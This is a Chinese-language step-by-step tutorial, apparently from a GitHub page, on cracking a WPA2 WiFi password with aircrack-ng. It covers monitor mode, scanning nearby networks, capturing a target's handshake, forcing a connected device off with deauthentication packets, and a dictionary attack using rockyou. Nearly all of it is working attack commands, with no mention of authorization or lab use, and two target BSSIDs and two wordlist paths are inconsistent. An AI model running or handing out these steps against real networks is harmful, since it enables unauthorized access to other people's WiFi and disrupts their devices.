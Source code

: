 <h3>1.找一个字典文件</h3>
这里用 Kali Linux 自带的`rockyou`字典，
使用前先解压。
```
gzip -d /usr/share/wordlist/rockyou.txt.gz
```

<h3>2.断开链接的WiFi</h3>
```
airmon-ng
```
列出所有支持监控模式的网卡。

<h3>3.监听网卡</h3>

```
airmon-ng start wlan0
```
此时网卡就处于监听模式，被监听的网卡变为 wlan0mon。<br>
可使用`ifconfig`命令查看。

<h3>4.查看WiFi网络</h3>
```
airodump-ng wlan0mon
```
可以看到周围WiFi的详细信息，包括信号强度、加密类型、频道(CH)等。<br>
要记住破解WIFI的频道号和BSSID。

<h3>5.抓取握手包</h3>
```
airodump-ng -c 6 --bssid C8:3A:35:30:3E:C8 -w ~/ wlan0mon
```
`6` 频道号(CH)<br>
`C8:3A....` 目标BSSID号<br>
`-w` 抓取数据包保存位置<br>

<h3>6.强制让设备重连WiFi</h3>
原理：给链接到WiFi的一个设备发送一个deauth(反认证)包，让那个设备断开WiFi，
随后它自然会再次链接。
```
aireplay-ng -0 2 -a C8:3A:35:60:3E:C8 -c B8:E8:56:09:CC:9C wlan0mon
```
`-0` 发送反认证包的个数 <br>
`-a` 指定路由器BSSID <br>
`-c` 指定强制断开的设备 <br>

成功监听到握手包后：`Ctrl+C` 结束抓包。<br>
```
airmon-ng stop wlan0mon
```
结束监听。

<h3>7.开始破解握手包密码</h3>
```
aircrack-ng -a2 -b C8:3A:35:60:3E:C8 -w /usr/share/wordlists/rockyou.txt ~/*.cap
```
`-a2`代表握手包 <br>
`-b` 指定要破解的WiFi BSSID <br>
`-w` 指定字典文件 <br>
最后是抓取的包 <br>